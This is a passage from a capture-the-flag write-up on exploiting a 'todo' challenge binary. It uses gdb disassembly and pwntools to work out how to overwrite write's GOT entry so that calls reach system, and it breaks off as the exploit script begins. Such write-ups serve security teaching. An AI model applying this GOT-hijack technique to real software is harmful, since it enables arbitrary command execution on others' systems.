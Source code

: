 ```
Dump of assembler code for function write@plt:
   0x0000555555554910 <+0>:     jmp    QWORD PTR [rip+0x20270a]        # 0x555555757020
   0x0000555555554916 <+6>:     push   0x1
   0x000055555555491b <+11>:    jmp    0x5555555548f0
End of assembler dump.
```

The `push & jmp` logic will resolve the correct address, and store it in `0x555555757020` so that next time `write` is called, it jumps directly to the correct location (lazy binding).

We'd like the program to jump to `system`'s .plt resolution stub, instead of `write`'s one:
```assembly
gdb-peda$ info address system@plt
Symbol "system@plt" is at 0x555555554940 in a file compiled without debugging.
gdb-peda$ disas 0x555555554940
Dump of assembler code for function system@plt:
   0x0000555555554940 <+0>:     jmp    QWORD PTR [rip+0x2026f2]        # 0x555555757038
   0x0000555555554946 <+6>:     push   0x4
   0x000055555555494b <+11>:    jmp    0x5555555548f0
End of assembler dump.
```

This means we want `0x555555757020` to hold `0x0000555555554946`, so that when `write@plt` is called it will jump to `system`'s resolution logic and eventually call `system`.

What we saw now are .plt runtime addresses (which are determined at runtime), let's take a look at the addresses that the ELF contains:
```python
>>> from pwn import *
>>> e = ELF("todo")
[*] '/media/sf_CTFs/google/todo/todo'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
>>> hex(e.plt["write"])
'0x910'
>>> hex(e.plt["system"])
'0x940'
>>> hex(e.got["write"])
'0x203020'
```

So if we consider the runtime address as a base + offset, the base is determined at runtime and the offset comes from the ELF. Therefore, given the runtime value of `write`'s GOT entry (pointing before resolution into the resolution `write@plt`), we can now calculate the location of the resolution logic in `system@plt`:

```
0x0000555555554916  - 0x910          + 0x940           = 0x0000555555554946
'write' runtime GOT - e.plt["write"] + e.plt["system"]
```

Putting it all together:
```python
from pwn import *

LOCAL_PATH = "./todo"

def login(r, user):
    r.sendlineafter("user: ", user)

def read_menu(r):
    r.recvuntil("> ")

def read_todo(r, index):
```